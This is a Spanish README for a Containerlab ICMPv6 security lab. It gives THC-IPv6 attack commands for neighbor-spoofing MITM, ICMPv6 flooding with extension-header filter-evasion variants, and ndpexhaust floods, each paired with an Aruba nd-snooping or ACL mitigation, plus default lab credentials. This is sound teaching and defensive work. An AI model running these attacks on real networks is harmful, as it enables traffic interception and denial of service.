

# Laboratorio ICMPv6 Security con Containerlab

La topología creada tiene por objetivo poveer un entorno controlado para el análisis de seguridad del protocolo **ICMPv6**.
## Descripción de los nodos

| Nodo |OS  |
|--|--|
| Router |Nokia SRL Linux 24.10  
| Switch |Aruba AOS-CX 10.14
|PC1 y PC3|Kali Linux con THC IPv6 Tool e IPv6Toolkit 
|PC2 y PC4|Alpine Linux
## Acceso a los nodos
* Router Nokia vía SSH. `ssh admin@clab-icmpv6-srlrouter` password: `NokiaSrl1!`
* Switch Aruba vía SSH. `ssh admin@clab-icmpv6-arubaaccess` password: `admin`
* PCx vía bash. `docker exec -it clab-icmpv6-PCx /bin/bash`
## Ejemplos ataques
### MiTM/DoS vía Neighbor Spoofing (atk6-parasite6). 
>*This is an "ARP spoofer" for IPv6, redirecting all local traffic to your own
system (or nirvana if fake-mac does not exist) by answering falsely to
Neighbor Solitication requests.*  From https://www.kali.org/tools/thc-ipv6/

* Desde el nodo **srvweb** iniciar el servicio ejecutando el comando `nginx`
* Desde **arubaaccess** verificar la tabla de **IP bindings** ejecutando: `show nd-snooping bindings`
* Desde el nodo **PC1** Kali
  * Habilitar enrutamiento: `sysctl -w net.ipv6.conf.eth1.forwarding=1`
  * Lanzar el ataque ejecutando: `atk6-parasite6 eth1`
* Desde **PC3**
  * Realizar consulta http ejecutando `http http://[2001:db8:d1::50]`
* Desde **arubaaccess** verificar la mitigación del ataque ejecutando: `show nd-snooping statistics`
### **DoS mediante ICMPv6 Flooding** 

>***atk6-flood_unreachable:** Flood the target with ICMPv6 unreachable packets.*
* Desde **PC3**
  *  Lanzar el ataque ejecutando: `atk6-flood_unreach6 eth1 fe80::20`
  * Alternativas de evasión a filtrado usando campos de extensión: 
  * Next Header field value 44 (Fragment) `atk6-flood_unreach6 -F eth1 fe80::20`
  * Next Header field value 60 (Destination Options) `atk6-flood_unreach6 -D eth1 fe80::20`
  * Next Header field value 0 (Hop-by-Hop Options) `atk6-flood_unreach6 -H eth1 fe80::20`
* Mitigación: config **ICMPv6 ACL filter**   
>***atk6-ndpexhaust26:** Flood the target /64 network with ICMPv6 TooBig error messages.*
* Desde **PC3**
  *  Lanzar el ataque ejecutando: `atk6-ndpexhaust26 -Tr eth1 2001:db8:70::`
  * Opciones: 
  * -T send ICMPv6 Time-to-live-exeeded
  * -r randomize the source from your /64 prefix
* Mitigación: config **ICMPv6 ACL filter**    
